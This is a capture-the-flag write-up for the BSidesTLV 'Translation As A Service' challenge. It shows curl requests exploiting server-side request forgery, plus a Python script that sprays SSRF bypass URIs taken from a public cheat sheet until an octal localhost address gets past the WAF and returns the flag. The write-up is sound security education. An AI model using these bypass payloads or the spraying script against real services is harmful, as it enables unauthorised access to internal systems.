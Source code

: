 # Translation As A Service
* Category: Web Application
* 750 Points
* Solved by the JCTF Team

## Description
> Moving from one language to another can be rather difficult. Translation As A Service is a system that will allow you to smoothly use our own custom and unique translation algorithm, to transition from your own language to another.
> 
> http://translate.challenges.bsidestlv.com/

## Solution

We access the site and see a user interface which allows translating fron English to Spanish:

![](images/translate.png)

For example:
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=test
{"status":200,"content":"prueba"}
```

After playing around a bit, it appeared that the service is vulnerable to [SSRF](https://en.wikipedia.org/wiki/Server-side_request_forgery):
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=http://example.com
{"status":200,"content":"<!doctype html>\n<html>\n<head>\n    <title>Example Domain<\/title>\n\n    <meta charset=\"utf-8\" \/>\n    <meta http-equiv=\"Content-type\" content=\"text\/html; charset=utf-8\" \/>\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\" \/>\n    <style type=\"text\/css\">\n    body {\n        background-color: #f0f0f2;\n        margin: 0;\n        padding: 0;\n        font-family: \"Open Sans\", \"Helvetica Neue\", Helvetica, Arial, sans-serif;\n        \n    }\n    div {\n        width: 600px;\n        margin: 5em auto;\n        padding: 50px;\n        background-color: #fff;\n        border-radius: 1em;\n    }\n    a:link, a:visited {\n        color: #38488f;\n        text-decoration: none;\n    }\n    @media (max-width: 700px) {\n        body {\n            background-color: #fff;\n        }\n        div {\n            width: auto;\n            margin: 0 auto;\n            border-radius: 0;\n            padding: 1em;\n        }\n    }\n    <\/style>    \n<\/head>\n\n<body>\n<div>\n    <h1>Example Domain<\/h1>\n    <p>This domain is established to be used for illustrative examples in documents. You may use this\n    domain in examples without prior coordination or asking for permission.<\/p>\n    <p><a href=\"http:\/\/www.iana.org\/domains\/example\">More information...<\/a><\/p>\n<\/div>\n<\/body>\n<\/html>\n"}
```

We can see that if we request a URI, we get the source code. What if we try to access localhost?

```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=http://localhost
{"status":400,"content":"\n    <html>\n    <body>\n        <h1>Our SuperWAF has detected suspicous behaviour...<\/h1>\n    <\/body>\n    <\/html>\n    "}
```

The request is being blocked by a WAF. If it's based on a blacklist, we might be able to bypass it using a different way to express localhost. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) is very helpful with this.

We can use the following Python script to try anything that looks like a URI from the cheat sheet:

```python
import requests

ssrf_list = requests.get("https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/README.md")

blacklist = ["SuperWAF", "no content", "Internal Server Error"]

for line in ssrf_list.text.split("\n"):
    if line.startswith("http"):
        print ("Attempting: '{}'".format(line))
        r = requests.get("http://translate.challenges.bsidestlv.com/api/translate?text={}".format(line.rstrip()))
        if not any([blacklist_item in r.text for blacklist_item in blacklist]):
            print (r.text)
            break
```

The output:
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# python ssrf.py
Attempting: 'http://127.0.0.1:80'
Attempting: 'http://127.0.0.1:443'
Attempting: 'http://127.0.0.1:22'
Attempting: 'http://0.0.0.0:80'
Attempting: 'http://0.0.0.0:443'
Attempting: 'http://0.0.0.0:22'
Attempting: 'http://localhost:80'
Attempting: 'http://localhost:443'
Attempting: 'http://localhost:22'
Attempting: 'https://127.0.0.1/'
Attempting: 'https://localhost/'
Attempting: 'http://[::]:80/'
Attempting: 'http://[::]:25/ SMTP'
Attempting: 'http://[::]:22/ SSH'
Attempting: 'http://[::]:3128/ Squid'
Attempting: 'http://0000::1:80/'
Attempting: 'http://0000::1:25/ SMTP'
Attempting: 'http://0000::1:22/ SSH'
Attempting: 'http://0000::1:3128/ Squid'
Attempting: 'http://localtest.me'
Attempting: 'http://customer1.app.localhost.my.company.127.0.0.1.nip.io'
Attempting: 'http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost'
Attempting: 'http://bugbounty.dod.network redirect to 127.0.0.2 == localhost'
Attempting: 'http://127.127.127.127'
Attempting: 'http://127.0.1.3'
Attempting: 'http://127.0.0.0'
Attempting: 'http://0177.0.0.1/'
{"status":200,"content":"\n    <html>\n        <body>\n        <h1>Congratz!!!<\/h1>\n        <p>BSidesTLV{S$RF-1N-TR4NSLAT3-!Z-S0-KEWL!}<\/p>\n        <\/body>\n    <\/html>\n    "}

```

Octal representation did the trick.

The flag: BSidesTLV{S$RF-1N-TR4NSLAT3-!Z-S0-KEWL!}